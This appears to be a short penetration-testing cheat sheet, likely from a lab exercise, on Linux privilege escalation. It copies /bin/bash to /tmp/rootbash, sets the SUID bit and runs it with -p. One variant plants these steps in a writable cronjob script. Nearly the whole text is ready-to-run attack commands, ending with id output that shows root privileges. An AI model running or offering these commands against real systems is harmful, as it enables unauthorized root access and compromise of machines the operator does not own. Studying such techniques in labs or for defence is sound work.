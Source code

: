 #### 1 liner
```bash - target
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p
```

#### Multi command
```bash - target
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

```bash - target
/tmp/rootbash -p
```

#### Script / cronjob
```bash - target
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

```bash - target
chmod +x /home/user/overwrite.sh
```

Wait for the cronjob to run (this job in particular runs every minute).

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell:

```bash - target
/tmp/rootbash –p
```

```bash - target
id
```

>uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root)